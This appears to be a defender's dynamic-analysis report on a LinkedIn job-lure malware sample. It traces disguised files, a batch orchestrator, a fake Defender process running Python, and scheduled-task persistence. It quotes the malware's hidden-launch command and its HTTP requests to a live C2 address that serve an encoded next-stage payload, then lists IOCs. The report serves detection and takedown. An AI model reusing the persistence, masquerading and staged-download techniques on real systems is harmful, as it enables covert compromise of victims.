

# Linkedin Recruitment Lure Investigation 
## Part 2 – Dynamic Analysis & Payload Behaviour

Date: 23rd April 2026

---

## Executive Summary

This part of the investigation focuses on what actually happens when 'Position Details and Compensation Policy For Emp.EXE' is executed in a controlled live enviroment.

In the first write-up, I looked at how the file was delivered and what it looked like statically. From the information i gathered in my static analysis, i knew this was more than a simple phishing attempt, but i was surprised how sophisticated this malware the more I pulled the thread.

After running it in a lab, it turned out to be a very stealthy, complex structure.

Instead of one obvious payload, this is a **multi-stage setup** using:

- disguised files  
- a batch script to control execution - a password-protected archive  
- and a bundled Python environment running under a fake system process name  

---

## Introduction

In my initial investigation into this Linkedin recruitment lure, I focused on the delivery chain and file structure without executing the payload.

At that point, my thinking was that the main activity would probably come from one of the DLLs in the package, maybe through sideloading.

That wasn’t completely wrong, but it didn’t explain everything.

To get a clearer picture, I moved into a lab and looked at what actually happens when the file is run using:

- A Windows 10 VM
- Process Explorer   
- Burp Suite
- WireShark
- A Kali Linux VM for file analysis

---

## Initial Execution – First Impressions

When the file is executed, a document opens straight away:

The aim of this document is to convince the user they have opened a legitimate document and distract them from what is going on in the background... However, the document was a 'Google Ads Playbook', not what the user would expect after clicking a link for 'Complete Information about the job and products'. This struck me as sloppy at first, likely just lazy reuse of the decoy document...

But at that point of the attack, it didnt matter. Delivery of the payload had already begun silently in the background with no GUI, warning or confirmation check. It was completely invisible unless running procexp.

While the process was running I noticed `zhen.mkv`, a file I had seen earlier but, at that point, I had assumed was just a decoy video file based on the extension.  
However, it turned out to be a RAR archive, and once executed it began triggering the loading of multiple DLLs in the background.

The process ended with a file named MpEng.exe, which at first glance looked like Microsoft Defender, but the company name of Python Software Foundation made it clear that wasn't the case. 

It became clear this process wasn’t actually Defender at all, but a Python-based runtime executing scripts in the background.

---

## Going Back to the Files

I went back to the extracted files and noticed something I’d missed earlier. The files I thought were just decoys in my earlier investigation were hidden in a `_` folder:

I’d already seen that `zhen.mkv` wasn’t what it appeared to be, so finding these files grouped together made it clear they weren’t random decoys, they were part of the actual execution chain.

---

## File Types

Checking the real file types changed everything:

- `.mkv` → executable  
- `.pdf` → archive  
- `Deju` → batch script  

This is where it became clearer what was happening.

---

## zhen.mkv 

This is actually a renamed **WinRAR command line tool**.

So not the payload itself, but something used to unpack it.

---

## TAIWAN.pdf 

Despite the name, this isn’t a PDF. It’s a password-protected archive.

---

## Deju 

This file is the key component in delivering the payload.

It:

- executes the WordPad document
- executes zhen.mkv
- extracts `TAIWAN.pdf`  
- includes the password  
- sets a flag `co=sunset`
- creates a scheduled task "Windows Update Check" which runs 'WinUpdate.bat' every 10 minutes

This ties everything together, Deju isn’t just another file in the archive, it’s the component orchestrating the entire execution flow.

---

I used the password to unpack Taiwan.pdf
It contains a large number of files rather than one obvious payload.

Those files were:

- a full Python environment  
- standard libraries  
- compiled modules  
- **MpEng.exe** and **update.dll**

TAIWAN.pdf is the container for the payload.

 

---

At this point, `update.dll` appears to be the actual payload, executed by `MpEng` which masquerades as Windows Defender while running a Python-based enviroment. 

---

## Persistence 

After seeing that Deju had created a "WinUpdate" scheduled task, I checked Task Scheduler Library and confirmed that the created task is designed to run 'WinUpdate.bat' every 10 minutes indefinitely.

**The system is now persistently compromised at user level**

### WinUpdate.bat Behaviour

Inspecting the contents of `WinUpdate.bat` revealed the following command:

    start "" /min conhost.exe --headless "C:\Users\Ray Zah\AppData\Local\Microsoft\WindowsApps\MpEng.exe" "C:\Users\Ray Zah\AppData\Local\Microsoft\WindowsApps\update.dll" sunset

This shows that the scheduled task is not performing network activity directly, but instead re-launching the payload in a hidden state.

The use of `conhost.exe --headless` ensures that execution occurs without any visible window, reducing the likelihood of user detection.

`MpEng.exe`, previously identified as a disguised Python runtime, is used to execute `update.dll`, which likely contains the core payload logic.

The additional argument `sunset`(seen in Deju) suggests that execution may be controlled via parameters, potentially allowing different behaviours or modes.

This confirms that the scheduled task is responsible for maintaining persistent, hidden execution of the payload rather than performing immediate external communication.

---

## Network Activity (Burp)

Initial network monitoring was conducted using Burp Suite with traffic proxied from the analysis VM.

No proxy-aware HTTP/HTTPS traffic attributable to the payload was observed during:

- Initial execution of the lure
- Subsequent execution via the scheduled task (WinUpdate.bat)

 

The limited traffic captured appeared consistent with standard Windows behaviour, including SmartScreen and trust validation requests to Microsoft domains such as:

`checkappexec.microsoft.com`
`ctldl.windowsupdate.com`

No evidence of command-and-control (C2) communication or suspicious outbound HTTP/HTTPS requests was identified within the proxy-monitored traffic.

Since no proxy-aware traffic was observed, further packet-level inspection was required to determine whether the payload communicated using non-proxied or non-HTTP protocols.

---

## WireShark Analysis

I needed to look deeper to identify whether there is command-and-control (C2) communication that isn't visible through the proxy.

I reverted to a pre-infection snapshot of my VM for a clean baseline, set wireshark to capture and opened the 'Position Details and Compensation Policy For Emp.EXE' again.

Following execution, network activity was immediately observed. Within seconds, the system initiated multiple outbound connections, indicating automated behaviour rather than user-driven interaction.

---

## Key Observations

### 1. Immediate Network Burst

- Rapid outbound connections to multiple external IP addresses
- Mix of:
  - TCP (primarily port 443 and 80)
  - DNS queries
- Behaviour consistent with:
  - beaconing
  - infrastructure discovery
  - payload retrieval

**Screenshot to include:**
- Conversations view showing multiple external IPs and packet counts

---

### 2. Telegram Infrastructure Contact

DNS query observed:

- `t.me` → `149.154.167.99`

Followed by:

- TLS handshake (Client Hello → Server Hello)
- Encrypted communication established

**Assessment:**
This suggests use of Telegram infrastructure, likely for signalling, fallback communications, or operator interaction.

**Screenshots to include:**
- DNS query resolving `t.me`
- TLS handshake showing Client Hello with SNI: `t.me`

---

### 3. Suspicious HTTP C2 Communication

Primary suspicious host identified:

- `172.86.89.235` (port 80)

#### Initial Request

    GET /getPage?id=sunset HTTP/1.1
    Host: 172.86.89.235
    User-Agent: python-requests/2.33.0

**Key detail:**

- The `python-requests` user-agent strongly indicates scripted or programmatic communication embedded within the malware.

---

### 4. C2 Response (Stage Trigger)

Server response:

    HTTP/1.1 200 OK

Returns:

    http://172.86.89.235/links/sunset.txt

**Assessment:**
- This endpoint acts as a tasking or redirect layer
- Confirms a staged delivery mechanism

---

### 5. Payload Retrieval

Second request observed:

    GET /links/sunset.txt HTTP/1.1

Response:

- `Content-Type: text/plain`
- Large encoded payload returned

---

## Behavioural Summary

This traffic confirms a **multi-stage C2 workflow**:

1. Initial execution  
2. Contact C2 endpoint (`/getPage`)  
3. Receive next-stage instruction  
4. Retrieve encoded payload (`/sunset.txt`)  
5. Execute decoded content locally  

This behaviour is consistent with:

- loader malware  
- staged payload delivery systems  
- evasive infrastructure design  

---

## IP Infrastructure Analysis

### Telegram Infrastructure (149.154.167.99)

Analysis of network traffic identified outbound connections to `149.154.167.99`, which resolves to Telegram infrastructure (ASN: AS62041 – Telegram Messenger Inc).

- Legitimate service (Telegram Messenger network)
- Located in the Netherlands
- Used as a communication or signalling channel by the malware

**Assessment:**
This IP is not inherently malicious but is being leveraged as part of the malware’s communication flow, indicating potential abuse of a legitimate platform.

---

### Command & Control Server (172.86.89.235)

Further investigation identified `172.86.89.235` as the primary suspicious host involved in payload delivery.

- Hosting provider: RouterHosting LLC (Cloudzy)
- Location: Dallas, Texas, US
- Static VPS hostname: `235.89.86.172.static.cloudzy.com`
- Active HTTP service observed

**Observed behaviour:**
- Responds to `GET /getPage?id=sunset`
- Returns a secondary resource (`/links/sunset.txt`)
- Serves encoded payload content consistent with staged malware delivery

**Assessment:**
This host is functioning as an active command-and-control (C2) or staging server, delivering encoded payloads to the infected system via scripted HTTP requests.

---

## Execution Flow

---

## What This Is

---

## Level of Impact

---

## Indicators of Compromise (IOCs)

Based on this analysis, the following indicators may be useful for detection or further investigation:

**Files / Paths**
- `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\MpEng.exe` (fake Defender process)
- `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\update.dll`
- `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\WinUpdate.bat`

**Persistence**
- Scheduled Task:
  - Name: `Windows Update Check`
  - Action: `WinUpdate.bat`
  - Trigger: every 10 minutes

**Execution Behaviour**
- Use of:
  - `conhost.exe --headless`
- Hidden/minimised execution via:
  - `start "" /min`

**Disguised Components**
- `.mkv` file acting as executable (WinRAR CLI)
- `.pdf` file acting as password-protected archive
- Batch script (`Deju`) orchestrating extraction and execution

**Hash (Primary Payload Zip Package)**
- *f689830f201ed1612bfda4bb48e9dfba4bde9d2c4abc724f6e9f95060797e739*

---

### Reporting

Based on the confirmed malicious behaviour and supporting network evidence, this infrastructure will be reported to the relevant providers:

- Telegram (abuse@telegram.org) – for potential platform abuse
- RouterHosting / Cloudzy (abuse-reports@cloudzy.com) – for active malware hosting

The report will include supporting evidence from network captures, HTTP requests, and payload analysis to assist with investigation and potential takedown.

---

## Final Thoughts

---

## Original Investigation:

<https://github.com/Rayza-Slyce/Linkedin_Recruitment_Lure_Investigation_Pt1_Static_Analysis>
